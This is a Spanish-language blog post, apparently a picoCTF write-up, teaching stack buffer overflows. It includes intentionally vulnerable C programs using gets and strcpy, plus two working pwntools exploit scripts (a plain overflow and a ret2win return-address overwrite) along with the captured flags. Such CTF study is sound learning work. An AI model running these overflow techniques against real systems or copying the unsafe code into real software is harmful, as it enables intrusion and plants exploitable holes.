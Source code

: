 ```yaml
---
title: Overflow Part 1
time: 2024-12-07 12:00:00
categories: [Infosec, Pwn]
tags: [Infosec, WriteUps, Pwn]
image: /assets/posts/Overflow-1/Overflow1.jpg
---
```

![1](/assets/posts/Overflow-1/Overflow1.jpg)

# Hola a todos!

Overflow es una serie donde trato de explicar desbordamientos del buffer a través de la resolución de algunos retos de la plataforma picoCTF.

Esta serie esta hecha con el fin de guardar el aprendizaje y de utilidad para quien lo lea.

## Empezando

Bien, primero que todo es necesario entender como ocurre un buffer overflow, como saber si un programa es vulnerable a traves del análisis de su código mediante funciones vulnerables, para no hscer este post tan largo explicando como funciona todo esto por aqui dejo un recurso que puede ayudar al entendimiento:

[Buffer Overflow: Que son y como funcionan](https://www.welivesecurity.com/la-es/2014/11/05/como-funcionan-buffer-overflow/)

### Funciones vulnerables(Buffer Overflow):

`strcpy`, `strcat`: No verifican los límites del buffer destino.

`gets`: Lee hasta encontrar un salto de línea, pero sin limitar el tamaño.

`sprintf`: No controla el tamaño del buffer de salida.

`scanf` (con %s): Si no se especifica un límite de tamaño.

`strncpy`, `strncat`: Aunque más seguras, aún pueden ser mal usadas si los límites no se calculan correctamente.

## Reto 1: Puedes desbordar el buffer correcto?(BufferOverflow1)

Para todos los retos tenemos el código del ejecutable a explotar, asi que no es necesario hacer reversing para obtener el mismo:

El código en C es el siguiente:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
Analizando el código podemos observar que el programa esta tomando nuestro input y lo esta leyendo con la función vulnerable `gets`, lo que nos permite escribir mas alla del buffer definido por el programa, para explotar este binario tenemos que lograr que el programa apunte a la siguiente dirección sobreescribiendo la dirección de retorno para obtener la flag, para ello monte el siguiente exploit en python usando la librería de pwntools:

```python
from pwn import *

host = "saturn.picoctf.net"
port = 63304 #Cambiar puerto por nueva instancia

binary = remote(host, port)

payload = b"A"*60

binary.recvuntil(b"Input:")
binary.sendline(payload)

response = binary.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```
`
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
`

## Reto 2: My First Ret2Win?(Buffer Overflow1)

En este reto más allá de lograr que ocurra el buffer overflow debemos hacer llamada a la función `win` controlando la dirección de retorno, como hacemos esto? Bueno aquí vamos.

El codigo en C del ejecutable:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Observando el código podemos ver que seguimos explotando la función vulnerable `gets`, sin embargo en este reto debemos controlar la cantidad de caracteres a introducir para determinar a partir de que punto se empieza a sobreescribir la dirección de retorno para justo 1 byte antes de sobreescribirla lograr hacer que esta apunte a la dirección de la función `win`.

Para lograr esto utilizamos el debugguer gdb-peda, creamos un pattern con un valor de 60 caracteres y se lo pasamos al programa, una vez echo esto podemos determinar el offset para empezar a sobreescribir la dirección de retorno.

El offset es de 44 caracteres por lo que a partir de 44 caracteres estaremos apuntando a lo que queramos en este caso a la dirección de la función `win`(En este punto es necesito tener los conceptos necesarios para utilizar debuggers, etc), la cual es `0x080491f6`.

Exploit en python 

```python
from pwn import *

host = 'saturn.picoctf.net'
port = 56983 #Cambia el puerto segun la instancia

p = remote(host, port)

win_addr = p32(0x080491f6)

payload = b'A' * 44 + win_addr

p.sendline(payload)
response = p.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```

Teniendo que el binario es de 32bits y utiliza el formato little endian empaquetamos la dirección de la función `win(0x080491f6)` para pasarla al programa en el formato mencionado, luego hacemos que la dirección de retorno apunte a la dirección `win` y obtenemos la flag.
`
Flag: picoCTF{addr3ss3s_ar3_3asy_60fac6aa}
`

Esta serie tendra otro siguiente artículo donde resuelvo los 2 últimos retos de la serie, los cuales tienen una mayor dificultad.

# Gracias por leer!
